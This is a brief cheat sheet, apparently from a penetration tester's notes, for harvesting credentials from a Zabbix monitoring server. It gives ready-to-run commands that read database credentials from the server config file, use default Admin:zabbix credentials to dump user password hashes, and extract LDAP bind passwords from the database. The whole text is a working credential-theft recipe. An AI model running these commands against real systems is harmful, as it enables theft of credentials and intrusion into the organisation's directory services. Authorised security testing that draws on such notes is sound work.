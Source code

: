 # Zabbix

Grab DB creds:

```
$ cat /etc/zabbix/zabbix_server.conf | grep '^DB'
```

Grab local creds:

```
$ psql postgresql://Admin:zabbix@localhost/zabbix -c 'select userid, alias, name, surname, passwd, attempt_ip from users'
```

Grab LDAP creds:

```
$ psql postgresql://Admin:zabbix@localhost/zabbix -c 'select ldap_host, ldap_port, ldap_base_dn, ldap_bind_dn, ldap_bind_password from config'
```
